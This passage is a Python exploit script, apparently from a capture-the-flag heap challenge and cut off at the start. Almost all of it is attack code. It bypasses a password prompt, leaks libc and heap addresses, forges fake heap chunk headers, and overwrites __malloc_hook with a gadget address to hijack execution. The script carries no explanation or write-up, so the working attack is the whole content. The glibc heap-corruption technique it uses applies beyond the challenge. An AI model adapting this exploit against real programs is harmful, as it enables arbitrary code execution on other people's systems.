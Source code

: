 ```python
    ru('> ')

def show(idx):
    sl('4')
    ru('show: ')
    sl(str(idx))

ru('Pls input pass:')
sl('\x08\x08\x08\x08\x08\x08\x08\x08\xa4ABB\x08\x08\x08\x08\x08\x08')
ru('> ')

add('a'*0x18,0x4f8,'aaa') #0
add('b'*0x18,0xf8,'bbb') #1
add('c',0x18,'d') #2
delete(0)
add('a'*0x10+'\0',0x4f8,'c')
show(0)
ru('Description: ')
libc = u64(ru('\n')[:-1]+'\0\0')-0x63+0x10
base = libc - 0x3a5610
ru('>')

delete(0)
add('c'*0x18,0x600,'ccc') #0
delete(2)
add('c'*0x18,0x4f8,'a'*0x10) #2
show(2)
ru('a'*0x10)
heap = u64(ru('\n')[:-1]+'\0\0')-0x50
ru('>')

delete(0)
delete(1)
delete(2)

add('a',0x408+0x290,'aaa')
for i in range(10):
    add('a',0x18,'c')

for i in range(10):
    delete(i+1)

add('a',0xf8,'a') #1
add('b',0xf8,'b') #2
add('c',0xf8,'c') #3
fake = 'a'*136 + p64(0x71)+p64(heap+0xbf0)*2+p64(heap+0xbe0)*2
fake = fake.ljust(0xf0,'\0')
fake += p64(0x70)
edit(1,'a\n',fake)
delete(2)

add('d',0x68,'d') #2
add('e',0xf8,'e') #4

delete(1)
delete(2)

malloc_hook = base+0x3a5610

fake = 'a'*136 + p64(0x71)+p64(malloc_hook-0x23)
add('f', 0xf8,fake) #1
add('g', 0x68,'a') #2
add('h',0x68,'a'*11+p64(base+0xd6e77)+p64(base+0x7C6A0 ))
```